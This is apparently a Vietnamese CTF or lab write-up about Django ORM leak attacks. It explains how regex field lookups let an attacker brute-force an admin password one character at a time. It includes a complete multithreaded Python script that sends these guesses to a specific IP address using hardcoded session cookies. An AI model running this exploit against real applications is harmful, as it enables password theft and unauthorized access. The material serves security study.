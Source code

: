[PayloadsAllTheThings/ORM Leak/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/ORM%20Leak/README.md)

Ở tài liệu trên đã cung cấp một số cách để khai thác bao 
gồm việc sử dụng __startswith, __contains và __regex cho trường hợp của 
chúng ta. Logic để khai thác tương tự nhau: brute-force từng kí tự rồi 
quan sát kết quả trả về từ đó trích xuất dữ liệu. Ví dụ như ta có thể 
thử `password__startswith = 'abc'`, nếu kết quả trả về là tài khoản admin thì ta biết mật khẩu bắt đầu với 'abc', lặp lại quá trình để trích xuất hết mật khẩu.

Ta đang làm việc với Sqlite3 nơi LIKE clause không hỗ trợ case-sensitive. Vậy nên ta sẽ sử dụng field lookup `__regex` để trích xuất data.

![](https://github.com/nglong05/bl/raw/main/images/baocaotask9_image4.png)

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://103.197.184.163:8002/home/"
cookies = {
    'csrftoken': 'a1mcE6bavm8TNwMBxPSZDvf2o5xqlvhP',
    'sessionid': '0dxj9jvfz2ajqwf7e66tm4yad6xr5fwy'
}
headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

charset = string.ascii_lowercase + string.ascii_uppercase + string.digits
found = "^u"

def send_req(c, prefix):
    current = prefix + c
    data = {
        'csrfmiddlewaretoken': cookies['csrftoken'],
        'password__regex': current
    }
    r = requests.post(url, headers=headers, cookies=cookies, data=data)
    if "admin" in r.text:
        return c
    return None

while True:
    found_char = False
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = {executor.submit(send_req, c, found): c for c in charset}
        for future in as_completed(futures):
            result = future.result()
            if result is not None:
                found += result
                print(found[1:])
                found_char = True
                break

    if not found_char:
        break
```

